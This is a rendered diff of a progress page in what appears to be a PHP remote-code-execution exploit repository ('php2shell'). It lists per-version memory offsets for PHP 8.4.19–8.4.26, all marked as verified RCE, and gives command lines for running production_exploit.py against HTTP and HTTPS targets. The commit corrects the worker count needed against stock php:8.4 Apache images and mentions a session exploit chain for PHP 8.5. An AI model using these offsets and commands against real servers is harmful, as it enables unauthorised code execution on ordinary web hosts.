

Before and after one commit to fipso/php2shell, a Markdown page: PROGRESS.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/PROGRESS.md
+++ b/PROGRESS.md
@@ -12,25 +12,29 @@ Updated: 2026-10-25
 
 | PHP | `zif_system` | `zval_ptr_dtor` | Verification |
 |---|---:|---:|---|
-| 8.4.19 | `0x4472f0` | `0x63efe0` | RCE, single worker and 150 workers |
+| 8.4.19 | `0x4472f0` | `0x63efe0` | RCE, custom 1-worker pool and stock 150-worker pool |
 | 8.4.20 | `0x447530` | `0x63f9e0` | RCE, single worker |
 | 8.4.21 | `0x4623b0` | `0x65afe0` | RCE, single worker |
 | 8.4.22 | `0x462d30` | `0x65b9e0` | RCE, single worker |
 | 8.4.23 | `0x462d70` | `0x65b9a0` | RCE, single worker |
 | 8.4.24 | `0x464530` | `0x65d1e0` | RCE, single worker |
 | 8.4.25 | `0x464c70` | `0x65dc60` | RCE, single worker |
-| 8.4.26 | `0x465370` | `0x65eb60` | RCE, single worker and 150 workers |
+| 8.4.26 | `0x465370` | `0x65eb60` | RCE, custom 1-worker pool and stock 150-worker pool |
 
 Run:
 
 ```bash
 python3 production_exploit.py \
-    --host 127.0.0.1 --port 1337 --workers 1 \
+    --host 127.0.0.1 --port 1337 --workers 150 \
     --version 8.4.26 --host-proof out/p1
 ```
 
 The chain pins `--workers - 1` partial POSTs open and uses the remaining
 prefork child for all four stages. A1/B1 are chunked; A2/B2 are fixed-length.
+`--workers` must match the target pool: 150 for stock `php:8.4.*-apache` images
+and `lab/prod-8426`; 1 only for a target whose MPM has `MaxRequestWorkers 1`.
+The 8.5 session chain instead uses `session_exploit.py --rotate` and does not
+take a worker count.
 
 ### HTTPS
 
@@ -39,7 +43,7 @@ prefork child for all four stages. A1/B1 are chunked; A2/B2 are fixed-length.
 ```bash
 python3 production_exploit.py \
     --host target.example --port 443 --https \
-    --servername target.example --workers 1 \
+    --servername target.example --workers 150 \
     --version 8.4.26 --host-proof out/p1
 ```
 
````
Also changed, not shown: README.md (+21 -3 lines).
